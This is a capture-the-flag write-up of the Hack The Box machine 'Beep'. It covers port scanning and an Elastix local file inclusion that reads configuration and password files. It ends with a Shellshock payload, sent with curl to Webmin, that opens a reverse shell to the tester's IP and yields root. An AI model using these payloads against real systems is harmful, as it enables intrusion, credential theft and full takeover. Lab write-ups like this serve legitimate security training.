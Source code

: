 ```yaml
---
title: Beep - Hack The Box
date: 2021-02-28 14:05:00
author: 7h3M0nk
author_url: https://twitter.com/7h3M0nk
categories:
  - HackTheBox
tags:
  - HackTheBox
  - Write up
  - Beep
  - Linux Box
---
```


tl;dr

+ Shellshock 
+ Local File Inclusion

<!--more-->

**Solved by**: [7h3M0nk](https://twitter.com/7h3M0nk) <!-- change username -->

IP of the box is 10.10.10.7.


## Initial Analysis

Let's start by doing Basic scan using the [nmap automator](https://github.com/21y4d/nmapAutomator).

```bash

┌──(kali㉿kali)-[~/HackTheBox/Beep/10.10.10.7/nmap]
└─$ nmapautomator 10.10.10.7 Basic 

# Nmap 7.91 scan initiated Wed Feb 24 10:11:22 2021 as: nmap -Pn -sCV -p22,25,80,110,111,143,443,993,995,3306,10000 -oN nmap/Basic_10.10.10.7.nmap 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.49s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS PIPELINING APOP LOGIN-DELAY(0) TOP AUTH-RESP-CODE RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) UIDL EXPIRE(NEVER) USER
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4 NO RIGHTS=kxte OK RENAME BINARY CONDSTORE URLAUTHA0001 X-NETSCAPE QUOTA SORT STARTTLS LIST-SUBSCRIBED LISTEXT IMAP4rev1 ANNOTATEMORE IDLE CATENATE THREAD=REFERENCES CHILDREN SORT=MODSEQ UNSELECT NAMESPACE MULTIAPPEND THREAD=ORDEREDSUBJECT ATOMIC UIDPLUS Completed MAILBOX-REFERRALS LITERAL+ ID ACL
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-02-24T16:12:57+00:00; +1h00m33s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 1h00m32s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 24 10:15:45 2021 -- 1 IP address (1 host up) scanned in 263.60 seconds
                                                                                                    
```

We can see that a lot of services are present. One of the first that I notice is an Apache 2.2.3 server running at port 80. Checking it out!


![Elastix](First.png)

An Elastix page, trying to login using default creds. admin:admin , admin:password . Unsuccessful.

Let's try serachsploit to find known vulnerabilities.

``` bash

┌──(kali㉿kali)-[~/HackTheBox/Beep/10.10.10.7/nmap]
└─$ searchsploit elastix           
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                                                     | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                                   | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                                             | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                          | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                                         | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                                        | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                                    | php/webapps/18650.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## Exploit

I tried the php code injection and RCE as I didn't know what version the Elastix was running. These also didn't work.

What about [Local File Inclusion](https://www.exploit-db.com/exploits/37637)?

```bash

LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

```

That worked, Got the admin creds to the elastix. Logging in.

![Elastix](elastix.png)
 This vulnerability is there because elastix fails to properly sanitize user-supplied input.

I was able to find the user from /etc/passwd. 

![User](Second.png)

Also the user.txt flag.

![Userflag](Third.png)


I did a bit of snooping around. Couldn't find anything to get a reverse shell. 

Moving on! Checking the nmap results there is a Webmin, which is an administrative tool running at port 10000. Checking it out.

![cgi](Fourth.png)

 session_login.cgi. [Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)!! 

Let's check if it works.

```bash

curl -v -H "user-agent:() { :; }; echo; echo; /bin/bash -c 'bash -i  >& /dev/tcp/10.10.14.15/800 0>&1'" \https://10.10.10.7:10000/session_login.cgi

```
That didn't work :(

I was stuck here for a while, one of my team-mates told me to intercept the request via Burp and then try to pop a shell.

![shell](Fifth.png)

```bash

                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo nc -nvlp 800                                                                                         1 ⨯
listening on [any] 800 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.7] 58088
bash: no job control in this shell
[root@beep webmin]# cd ~/ 
[root@beep ~]# cat root.txt

```
Pwned!! 

That is how I solved Beep. :) 

